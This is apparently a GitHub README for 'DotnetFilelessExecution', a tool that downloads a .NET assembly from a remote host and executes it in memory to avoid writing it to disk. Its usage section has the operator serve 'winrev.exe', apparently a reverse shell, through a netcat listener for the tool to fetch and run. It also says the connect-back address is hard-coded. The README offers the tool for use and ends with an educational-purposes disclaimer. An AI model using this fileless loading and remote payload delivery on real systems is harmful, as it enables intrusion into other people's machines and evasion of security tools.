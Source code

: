 # DotnetFilelessExecution

## Overview

DotnetFilelessExecution is the very basic demonstration of how to fetch a .NET assembly remotely and the execute it on the client side directly in memory, i.e., without having to save the assembly on the disk.

## Compilation

I have used cross compilation but of course, Visual Studio can be used.

```bash
mcs -out:DotnetFilelessExecution.exe DotnetFilelessExecution.cs
```

## Usage

- Start a simple Netcat file sharing server, serving the .NET compiled assembly which you want to execute.

```bash
nc -nvlp 80 < winrev.exe
```

- Use DotnetFilelessExecution to execute it remotely in memory

```bash
.\DotnetFilelessExecution.exe
```

## Note
For demonstration purposes, the connect back address is hard coded inside the program, which can be changed as needed.

## Disclaimer
This project is intended for educational and security testing purposes only. The author is not responsible for any misuse of this tool.

## Author
Developed by **Sayan Ray** [@BareBones90](https://x.com/BareBones90)

## License
This project is licensed under the MIT License - see the LICENSE file for details.
